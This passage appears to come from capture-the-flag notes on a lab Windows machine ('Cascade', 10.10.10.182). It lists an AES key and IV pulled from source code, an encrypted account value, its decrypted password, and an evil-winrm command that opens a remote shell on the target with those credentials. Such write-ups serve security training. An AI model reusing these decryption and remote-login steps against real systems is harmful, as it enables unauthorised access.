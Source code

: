 
```
DomainPwd!c4scadek3y6543217Error decrypting password:
```

```
c4scadek3y654321
```

```
1tdyjCbY1Ix49842
```
![[Pasted image 20240917081807.png]]

We found the key but let's find the password from the .db file and with the help of chat-gpt 
will enumerate it
```
1|ArkSvc|BQO5l5Kj9MdErXx6Q6AGOw==|cascade.local
```
![[Pasted image 20240917083411.png]]

Data 
```
BQO5l5Kj9MdErXx6Q6AGOw==
```

Key
```
1tdyjCbY1Ix49842
```

Secret Key
```
c4scadek3y654321
```

Password
```
w3lc0meFr31nd
```

![[Pasted image 20240917183041.png]]


```
evil-winrm -u 'ArkSvc' -p 'w3lc0meFr31nd' -i 10.10.10.182  
```

![[Pasted image 20240918045612.png]]

![[Pasted image 20240919023504.png]]
